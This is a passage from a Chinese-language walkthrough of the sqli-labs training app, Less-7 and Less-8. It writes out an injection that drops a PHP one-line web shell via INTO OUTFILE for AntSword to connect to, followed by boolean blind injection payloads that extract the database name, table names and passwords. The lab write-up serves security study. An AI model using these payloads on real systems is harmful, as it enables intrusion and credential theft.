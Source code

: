 - 写一句话木马

```
?id=1')) union select 1,2,'<?php @eval($_POST["admin"])?>' into outfile "D:\\CTF-Tools\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\1.php" --+
```

![https://i-blog.csdnimg.cn/img_convert/c37da9714a38a681e3c34f32d2183b70.png](https://i-blog.csdnimg.cn/img_convert/c37da9714a38a681e3c34f32d2183b70.png)

- 之后可以用蚁剑连接

## Less-8

判断闭合为：`'`

#### 方法一：布尔盲注

- 猜数据库名长度：

`?id=1' and length((select database()))=8 --+`

- 猜测security为数据库，页面返回正确

`?id=1' and mid(database(),1,1)='s'--+`

`?id=1' and mid(database(),8,1)='y'--+`

- 猜出表名，列名

`?id=1' and ascii(mid((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117--+`

- 获取数据

`?id=1' and ascii(substr((select group_concat(password,username) from users limit 0,1),1,1))>=65--+`

**用left()函数的布尔盲注**

[MySQL left()函数](https://blog.csdn.net/moakun/article/details/82086078)

- 猜数据库版本号

`?id=1' and left(version(),1)=5 --+`

- 猜测security为数据库，页面返回正确

`?id=1' and left(database(),1)='s'--+`

`?id=1' and left(database(),2)='se'--+`

...

`?id=1' and left(database(),8)='security' --+`

- 猜出表名，列名

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>80 --+`

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+`
